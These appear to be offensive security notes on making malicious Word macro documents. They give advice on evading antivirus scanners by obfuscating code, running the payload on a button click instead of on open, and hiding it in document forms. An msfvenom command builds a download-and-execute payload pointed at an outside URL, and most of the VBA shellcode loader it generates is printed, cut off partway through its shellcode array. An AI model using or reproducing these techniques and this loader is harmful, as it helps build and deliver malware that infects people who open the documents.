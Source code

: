 Author tips

* Author recommends doing code obfucation (e.g. XOR) but not pulling in a third party lib to do it as AV scanners will likely pick it up.
* Author recommends not running your code on document open becuase it looks suspicious to AV scanners. Instead create a button which the user will click to run the code (this makes it harder to spot by AV)

Other techniques

* main VBA can be clean but store the malicious content in forms within the document which the main VBA reads and writes its payload to disk
* MS Word has different file format for documents without macros (docx) and with macros (docm)
* In general, MS Word opens files based on the file data, not based on the file name extension. So long as MS Word can identify the data structure, it will open the file correctly. This means you can rename .docx files to .rtf and word will open it just fine.
* renaming a `.docm` to `.docx` will prevent it from opening (which is a good thing)

#### Aside: msfvenom

Metasploit will create a VBA snippet for you that encodes binary of your choice as a decimal encoded shellcode `msfvenom`. It is functional but basic and will be caught by many AV scanners because it encodes the payload directly in the VBA code (as decimal shellcode)

```bash
$ ls
hello  hello.c
$ msfvenom -p windows/download_exec -f vba -e x86/shikata_ga_nai -i 5 -a x86 --platform Windows EXE=~/hello URL=http://www.blah.com > output.vbs
```

Contents of output.vbs:

```vbs
#If Vba7 Then
	Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zgudvwh As Long, ByVal Vxpmqwy As Long, ByVal Urrjowm As LongPtr, Ykjkcx As Long, ByVal Gdklw As Long, Qyxngl As Long) As LongPtr
	Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Lslpj As Long, ByVal Xqm As Long, ByVal Yfbbr As Long, ByVal Bqjofnv As Long) As LongPtr
	Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Gocnqictp As LongPtr, ByRef Rnutsjvsr As Any, ByVal Dnquy As Long) As LongPtr
#Else
	Private Declare Function CreateThread Lib "kernel32" (ByVal Zgudvwh As Long, ByVal Vxpmqwy As Long, ByVal Urrjowm As Long, Ykjkcx As Long, ByVal Gdklw As Long, Qyxngl As Long) As Long
	Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Lslpj As Long, ByVal Xqm As Long, ByVal Yfbbr As Long, ByVal Bqjofnv As Long) As Long
	Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Gocnqictp As Long, ByRef Rnutsjvsr As Any, ByVal Dnquy As Long) As Long
#EndIf

Sub Auto_Open()
	Dim Ljcndgm As Long, Omagfa As Variant, Nunfzfwl As Long
#If Vba7 Then
	Dim  Kjpjr As LongPtr, Jnjbycok As LongPtr
#Else
	Dim  Kjpjr As Long, Jnjbycok As Long
#EndIf
	Omagfa = Array(177,159,144,111,219,220,217,116,36,244,91,41,201,177,135,49,67,21,3,67,21,131,235,252,226,68,66,81,213,131,161,225,37,18,45,34,206,249,231,227,159,128,201,166,200,129,124,94,116,77,94,49,128,132,140,154,110,111,198,241,114,122,118,48,45,66,208,55,28,225,119,199,189,54,187,82,41,160,143,253, _
5,173,52,252,31,148,197,162,202,133,232,12,84,209,36,62,40,98,178,21,114,122,94,124,144,245,82,131,82,161,80,13,199,135,207,251,235,116,140,174,13,250,31,246,42,247,250,81,171,38,67,175,150,173,68,156,106,37,142,17,165,183,222,170,50,124,207,93,0,202,96,214,249,244,101,31,189,168,243,13, _
```